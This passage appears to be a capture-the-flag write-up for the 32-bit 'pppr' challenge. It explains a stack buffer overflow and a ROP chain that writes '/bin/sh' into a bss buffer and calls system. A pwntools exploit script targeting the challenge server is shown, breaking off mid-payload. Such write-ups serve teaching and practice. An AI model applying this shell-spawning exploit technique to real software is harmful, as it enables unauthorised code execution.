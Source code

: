 By interacting with it and by analyzing it in Ghidra, we learn that it takes at most 63 bytes from stdin and adds a null byte, and stores them into a buffer of 4 bytes. <br>
The input is taken in a function called ```r```, which takes three parameters: buffer, number of bytes to read, stream number. <br>
The "stream number" parameter is not actually used to choose a stream, there is just the check that it is equal to 0. <br>
The ```system``` function is linked in the binary, wrapped by a function called ```x```, and there is a 128-bytes long scratch buffer in bss section called ```buf_in_bss```. <br>

The binary is 32-bit, so parameters are passed on the stack (we can double check this by looking at disassembly). <br>
So, when calling ```system``` in a ROP, we have to prepare gadgets in this layout:

```
system | ret_addr | buf_in_bss
```

We can put an arbitrary ```ret_addr``` after system: if it's called correctly, the new program will replace the running one in the process context. <br>
We choose to use ```buf_in_bss``` as parameter for the ```system``` function because it's easier to write a string there. <br>
To write there, we can re-use ```r``` function, by passing as first parameter ```buf_in_bss```, as second parameter the length of our program's name (which will be ```/bin/sh```, so we can pass 7 or 8 as length), and 0 as third parameter, like that:

```
r | ret_addr | buf_in_bss | 8 | 0
```

We then need a gadget to consume the three parameters after the return from the ```r``` function, and to later return to ```system@plt```. <br>
This gadget will be the ```ret_addr``` of ```r```; a good one:

```
0x080486a9 : pop esi ; pop edi ; pop ebp ; ret
```

The full chain will be:

```
BOF | r | pop_esi_edi_ebp_ret | buf_in_bss | 8 | 0 | system | ret_addr | buf_in_bss
```

Where BOF is an arbitrary payload of 12 bytes, since the offset from the start of the buffer to the return address is 12 bytes. <br>
Here is the script:

{% highlight python %}
from pwn import *


def main():
    local = False
    elf = ELF("./pppr")
    if local:
        r = process(["./pppr"])
    else:
        r = remote("pppr.sstf.site", 1337)
    offset = 12
    r_func = elf.symbols['r']
    pop_esi_edi_ebp_ret = 0x080486a9
    buf_in_bss = elf.symbols['buf_in_bss']
    name_len = 8
    name = b"/bin/sh"
    r_third_param = 0
    system = elf.symbols['system']
    ret_addr = elf.symbols['__libc_start_main']
    payload = b'A' * offset
    payload += p32(r_func)
    payload += p32(pop_esi_edi_ebp_ret)
    payload += p32(buf_in_bss) + p32(name_len) + p32(r_third_param)